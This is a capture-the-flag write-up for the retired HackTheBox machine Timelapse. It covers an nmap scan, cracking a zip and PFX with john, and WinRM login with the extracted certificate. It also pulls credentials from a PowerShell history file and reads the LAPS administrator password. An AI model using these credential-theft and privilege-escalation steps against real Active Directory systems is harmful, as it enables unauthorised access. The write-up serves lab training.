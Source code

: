 ```yaml
---
title: "Timelapse | HackTheBox"
collection: publications
permalink: /publication/timelapse
excerpt: 'This is a retired machine from HackTheBox'
date: 2023-08-01
venue: '08-01'
#paperurl: 'http://academicpages.github.io/files/paper1.pdf'
#citation: 'Your Name, You. (2009). &quot;Paper Title Number 1.&quot; <i>Journal 1</i>. 1(1).'
---
```


![header](/images/timelapse_header.png)

**LINK:** [Timelapse](https://app.hackthebox.com/machines/Timelapse)

---

## Enumeration : 

Let's scan the target with nmap : 

```bash
# nmap -sV -A -p- 10.10.11.152 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-25 07:04 EDT
Nmap scan report for 10.10.11.152
Host is up (0.14s latency).
Not shown: 65518 filtered tcp ports (no-response)
PORT      STATE SERVICE           VERSION
53/tcp    open  domain            Simple DNS Plus
88/tcp    open  kerberos-sec      Microsoft Windows Kerberos (server time: 2023-07-25 19:12:30Z)
135/tcp   open  msrpc             Microsoft Windows RPC
139/tcp   open  netbios-ssn       Microsoft Windows netbios-ssn
389/tcp   open  ldap              Microsoft Windows Active Directory LDAP (Domain: timelapse.htb0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http        Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ldapssl?
3268/tcp  open  ldap              Microsoft Windows Active Directory LDAP (Domain: timelapse.htb0., Site: Default-First-Site-Name)
3269/tcp  open  globalcatLDAPssl?
9389/tcp  open  mc-nmf            .NET Message Framing
49667/tcp open  msrpc             Microsoft Windows RPC
49673/tcp open  ncacn_http        Microsoft Windows RPC over HTTP 1.0
49674/tcp open  msrpc             Microsoft Windows RPC
49696/tcp open  msrpc             Microsoft Windows RPC
50548/tcp open  msrpc             Microsoft Windows RPC
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows
```

the scan reveals 17 open ports :
 * ``DNS`` on port 53
 * ``Kerberos`` on port 88
 * ``ldap`` on port 389 and his hostaname is timelpase.htb

> these open ports suggest that we're dealing with a domain controller.

* Let's check the ``smb`` shares.

![timelapse1](/images/timelapse1.png)

* There is an only open share named *shares* .

![timelapse2](/images/timelapse2.png)

* there is a zip file for ``winrm``, let's download it to our local machine and unzip it.

![timelapse4](/images/timelapse4.png)

* Unfortunately the zip file is password protected, let's use ``zip2john`` to generate a hash that can be brute forced with ``john the ripper``.

```bash
# zip2john winrm_backup.zip > file.john
ver 2.0 efh 5455 efh 7875 winrm_backup.zip/legacyy_dev_auth.pfx PKZIP Encr: TS_chk, cmplen=2405, decmplen=2555, crc=12EC5683 ts=72AA cs=72aa type=8
``` 

* using john to brute force it :

![timelapse5](/images/timelapse5.png)

* Let's unzip the file now.

![timelapse6](/images/timelapse6.png)

> PFX files are digital certificates that contain both the SSL certificate (public keys) and private key. They’re essential for establishing secure connections between two devices.

* In order to extract the certificate and the private key, we should run the following commands :

```bash
# openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -out key.pem -nodes
# openssl pkcs12 -in legacyy_dev_auth.pfx -nokeys -out cert.pe
```
![timelapse7](/images/timelapse7.png)

* Since we don't have the password, let's convert it to a john hash.

```bash
# pfx2john legacyy_dev_auth.pfx > pfx.john
```

* let's crack it :

![timelapse8](/images/timelapse8.png)

# User Flag :

* After creating the certificate and the key using ``openssl``, let's connect to ``WinRM`` using ``evil-winrm``.

![timelapse9](/images/timelapse9.png)

* Get the user flag. 

# ROOT Flag : 

* Let's check the powershell history file .

```bash
type $env:APPDATA\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
```

![timelapse10](/images/timelapse10.png)

* The file contains commands run by the user ``legacyy``, one of the commands was the creds for the user ``svc_deploy``.

* Reconnecting with ``svc_deploy`` creds.

```bash
evil-winrm -i 10.10.11.152 -u svc_deploy -p 'redacted' -S
```

* While i was enumerating, i found that the ``svc_deploy`` user is part of an interesting group.

![timelapse11](/images/timelapse11.png)

> LAPS manages the local admin password, so since we are part of the LAPS_Readers we can read the administrator password.

```bash
Get-ADComputer -identity DC01 -properties *
```

![timelapse12](/images/timelapse12.png)

* Now it's time to reconnect but this time as the ``administrator``.

* The root.txt file was not in the desktop folder.

![timelapse13](/images/timelapse13.png)

* I found another user called ``TRX``, if you check his ``Desktop`` folder you will find the root flag.

![timelapse14](/images/timelapse14.png)



